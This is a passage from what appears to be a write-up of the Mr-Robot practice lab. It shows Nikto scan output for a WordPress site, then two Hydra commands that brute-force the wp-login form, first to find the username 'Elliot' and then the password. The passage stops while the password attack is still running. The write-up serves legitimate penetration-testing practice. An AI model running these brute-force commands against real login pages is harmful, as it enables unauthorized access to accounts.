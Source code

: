 ```console
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://192.168.229.162/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /wordpresswp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ /wordpresswp-login.php: Wordpress login found
+ 7918 requests: 3 error(s) and 18 item(s) reported on remote host
+ End Time:           2021-03-24 21:01:32 (GMT1) (4559 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

Going to the site I get a pretty well done page
<img class="ui image" src="{{ site.baseurl }}/images/writeups/vuln/mr-robot/1.png">

Going to the wp-login page I try logging in with admin:admin and in typical wordpress fashion it gave me a useful response of “invalid user”. I then had the thought to try bruteforcing it with hydra using the wordlist I got from the site
When trying to bruteforce the password it was taking forever then I used sort to remove repeated entries and that really reduced the number of possible passwords

<img class="ui image" src="{{ site.baseurl }}/images/writeups/vuln/mr-robot/2.png">

```console
┌──(root💀Toyin)-[~/infosec/lab/mr-robot]
└─# hydra -L ./fsocity.dic -p password 192.168.229.162 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.229.162%2Fwp-admin%2F&testcookie=1:Invalid username" | tee hydra-user
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-24 21:33:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://192.168.229.162:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.229.162%2Fwp-admin%2F&testcookie=1:Invalid username
[80][http-post-form] host: 192.168.229.162   login: Elliot   password: password

┌──(root💀Toyin)-[~/infosec/lab/mr-robot]
└─# hydra -l Elliot -P ./fsocity.dic.sort 192.168.229.162 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username" | tee hydra-password
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-25 13:28:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://192.168.229.162:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username
[STATUS] 1583.00 tries/min, 1583 tries in 00:01h, 9869 to do in 00:07h, 16 active
[STATUS] 1566.00 tries/min, 4698 tries in 00:03h, 6754 to do in 00:05h, 16 active
```